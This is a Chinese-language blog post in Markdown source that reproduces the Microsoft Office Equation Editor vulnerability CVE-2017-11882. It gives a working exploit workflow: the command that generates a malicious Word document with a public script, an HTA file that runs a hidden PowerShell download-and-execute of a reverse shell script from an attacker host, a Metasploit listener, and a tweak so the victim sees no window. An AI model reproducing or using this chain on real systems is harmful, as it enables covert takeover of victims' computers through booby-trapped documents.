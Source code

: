 ```yaml
---
title: CVE-2017-11882 复现
date: 2017-11-21 18:40:29
tags: [vul,sec,office]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>

上周微软更新日，修复了`CVE-2017-11882`这个漏洞，根据官方描述该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。漏洞位置是出现在一个公式编辑器上，叫做`EQNEDT32.EXE`，在win10上的路径是`C:\Program Files\Common Files\microsoft shared\EQUATION\EQNEDT32.EXE`，可以在编辑文档的时候插入公式。

最近有利用脚本出来了，也是自己尝试复现了几次，在此简单记录一下

下载`https://github.com/Ridter/CVE-2017-11882/`利用脚本，该脚本是[@Evi1cg](https://evi1cg.me/archives/CVE_2017_11882_exp.html)改造后的脚本，经过测试效果还是不错的

生成一个测试文档的话执行
`python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
`
打开test.doc就会弹出计算器，而且全程没有提示或警告之类的弹窗，可以算是完美利用，比之前[不带宏的代码执行](https://kylingit.com/blog/msword-code-exec-without-macro/)要简单粗暴

注意一点的是命令部分长度不能超过43bytes

#### 反弹shell
下面主要讲一下反弹shell的利用

用mshta方式执行代码：
在vps上建立一个文件`test`，内容为
```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 
```
关键是修改`objShell.Run`后面的部分

我们通过调用powershell下载一个反弹脚本然后执行的方式来获得shell：

修改`objShell.Run`为

`objShell.Run powershell.exe -WindowStyle Hidden -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://ip/reverse.ps1');reverse.ps1"`

其中`reverse.ps1`通过`msfvenom`生成

msf开启监听，然后生成word文档：
`python Command_CVE-2017-11882.py -c "mshta http://ip/test" -o test.doc`

打开之后就会收到shell

![test](https://ob5vt1k7f.qnssl.com/5TU1y)
![session 1](https://ob5vt1k7f.qnssl.com/KM1My)
但是这样会有一个问题，打开word文档的时候会发现有一个黑框一闪而过，而我们已经指定powershell以`-WindowStyle Hidden`的方式运行了，那怎么绕过这个黑框呢？

查一下[文档](https://msdn.microsoft.com/en-us/library/d5fk67ky\(en-us,VS.85\).aspx)
可以看到`Run`命令是可以通过`intWindowStyle`参数来控制窗口风格的，有0-10这几种风格
![Run Method](https://ob5vt1k7f.qnssl.com/q0F4b)
所以我们在执行的命令后面加一个参数，用来控制mshta运行的窗口大小，使之最好隐藏窗口运行
![0](https://ob5vt1k7f.qnssl.com/ccxgV)
经过测试0和2参数都是可以的，达到隐藏窗口执行，用户察觉不了，其它参数可以自己试一下

![session 3](https://ob5vt1k7f.qnssl.com/qJKq7)

参考：

https://evi1cg.me/archives/CVE_2017_11882_exp.html

http://www.freebuf.com/vuls/154462.html

<script>pangu.spacingPage();</script>






